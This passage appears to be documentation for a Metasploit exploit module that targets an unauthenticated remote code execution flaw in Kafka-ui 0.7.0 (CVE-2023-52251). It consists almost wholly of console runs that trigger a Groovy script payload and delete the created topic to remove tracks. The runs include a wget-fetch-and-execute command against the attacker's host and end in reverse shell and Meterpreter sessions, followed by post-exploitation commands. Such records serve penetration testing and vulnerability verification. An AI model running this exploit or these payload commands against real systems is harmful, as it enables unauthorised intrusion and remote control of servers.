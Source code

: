 ```shell
[*] Creating a new topic...
[+] New topic created: 9nQbg
[*] Trigger Groovy script payload execution by creating a message...
[*] Removing tracks...
[+] Successfully deleted topic 9nQbg.
[*] Command shell session 28 opened (192.168.201.8:4444 -> 192.168.201.25:49429) at 2024-01-20 18:44:52 +0000

uname -a
Linux 889a0c5cec88 6.4.16-linuxkit #1 SMP PREEMPT_DYNAMIC Thu Nov 16 10:55:59 UTC 2023 x86_64 Linux
id
uid=100(kafkaui) gid=101(kafkaui) groups=101(kafkaui)
```
### Kafka-ui v0.7.0 Unix/Linux Command - cmd/linux/http/x64/meterpreter_reverse_tcp
```shell
msf6 exploit(linux/http/kafka_ui_unauth_rce_cve_2023_52251) > exploit

[*] Command to run on remote host: wget -qO /tmp/LfMsMsUxX http://192.168.201.8:1981/Qw3rZo-yo18aYrvy_AQU-w; chmod +x /tmp/LfMsMsUxX; /tmp/LfMsMsUxX &
[*] Fetch Handler listening on 192.168.201.8:1981
[*] HTTP server started
[*] Adding resource /Qw3rZo-yo18aYrvy_AQU-w
[*] Started reverse TCP handler on 192.168.201.8:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 192.168.201.25:8080 can be exploited.
[+] The target appears to be vulnerable. Kafka-ui version: 0.7.0
[*] Executing Unix/Linux Command for cmd/linux/http/x64/meterpreter_reverse_tcp
[*] Searching for active Kafka cluster...
[+] Active Kafka cluster found: local
[*] Creating a new topic...
[+] New topic created: D9kH687
[*] Trigger Groovy script payload execution by creating a message...
[*] Removing tracks...
[*] Client 192.168.201.25 requested /Qw3rZo-yo18aYrvy_AQU-w
[*] Sending payload to 192.168.201.25 (Wget)
[+] Successfully deleted topic D9kH687.
[*] Meterpreter session 29 opened (192.168.201.8:4444 -> 192.168.201.25:50355) at 2024-01-23 08:47:41 +0000

meterpreter > sysinfo
Computer     : 172.30.0.4
OS           :  (Linux 6.4.16-linuxkit)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > getuid
Server username: kafkaui
meterpreter >
```
### Kafka-ui v0.7.0 Linux Dropper - linux/x64/meterpreter/reverse_tcp
```shell
msf6 exploit(linux/http/kafka_ui_unauth_rce_cve_2023_52251) > set target 1
target => 1
msf6 exploit(linux/http/kafka_ui_unauth_rce_cve_2023_52251) > exploit

[*] Started reverse TCP handler on 192.168.201.8:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 192.168.201.25:8080 can be exploited.
[+] The target appears to be vulnerable. Kafka-ui version: 0.7.0
[*] Executing Linux Dropper for linux/x64/meterpreter/reverse_tcp
```